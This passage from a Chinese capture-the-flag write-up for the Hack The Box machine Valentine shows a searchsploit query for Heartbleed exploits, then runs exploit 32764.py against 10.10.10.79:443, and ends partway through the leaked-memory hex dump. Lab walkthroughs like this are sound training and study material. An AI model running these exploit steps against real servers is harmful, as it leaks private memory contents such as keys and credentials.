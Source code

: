 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds

```

ok，证实存在漏洞。

在kali上查找可以利用的exp
```
┌──(root💀kali)-[~/htb/Valentine]
└─# searchsploit Heartbleed   
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)                                                                                                       | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                                                                                                                       | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                                                                                                                        | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                                                                                                                          | multiple/remote/32745.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

选择32764.py

执行攻击
```
┌──(root💀kali)-[~/htb/Valentine]
└─# python 32764.py 10.10.10.79 -p 443                                                                                                                                                                                                  1 ⨯
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...